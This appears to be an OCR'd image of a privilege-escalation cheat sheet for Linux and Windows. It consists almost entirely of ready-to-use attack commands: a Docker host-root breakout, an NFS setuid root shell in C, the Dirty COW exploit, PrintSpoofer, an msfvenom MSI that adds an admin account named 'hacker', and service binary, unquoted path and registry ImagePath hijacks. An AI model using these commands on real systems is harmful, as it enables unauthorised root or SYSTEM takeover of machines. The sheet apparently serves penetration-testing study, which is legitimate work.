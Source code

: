 **Docker group breakout**
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash
```

**NFS no_root_squash**
```bash
# On Kali after mounting share:
cat > /mnt/root.c <<'EOF'
#include <unistd.h>
#include <stdlib.h>
int main(){ setuid(0); setgid(0); system("/bin/bash"); }
EOF
gcc /mnt/root.c -o /mnt/rootme && chmod +s /mnt/rootme
# On target:
/export/rootme
```

**Kernel LPE (example Dirty COW)**
```bash
gcc -pthread dirty.c -o dirty -lcrypt
./dirty secret123 && su firefart
```

---

### Windows – Tokens / MSI / Services / Tasks / Backup / DLL / Kernel

**SeImpersonate → PrintSpoofer**
```cmd
PrintSpoofer.exe -i -c cmd
# Spawns SYSTEM cmd using impersonation.
```

**AlwaysInstallElevated → MSI as SYSTEM**
```bash
msfvenom -p windows/adduser USER=hacker PASS=Passw0rd! -f msi-nouac -o evil.msi
# Transfer then on target:
msiexec /quiet /qn /i C:\path\evil.msi
```

**Service binary replacement (weak ACL)**
```cmd
sc stop VulnService
move "C:\Program Files\Vuln\service.exe" "C:\Program Files\Vuln\service.exe.bak"
copy C:\Users\Public\hijack.exe "C:\Program Files\Vuln\service.exe"
sc start VulnService
```

**Unquoted service path hijack**
```cmd
copy C:\Users\Public\payload.exe C:\Program.exe
sc start <VulnerableService>
```

**Service ImagePath via registry (writable key)**
```powershell
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Services\VulnService" -Name ImagePath -Value "C:\Users\Public\payload.exe"
sc start VulnService
```
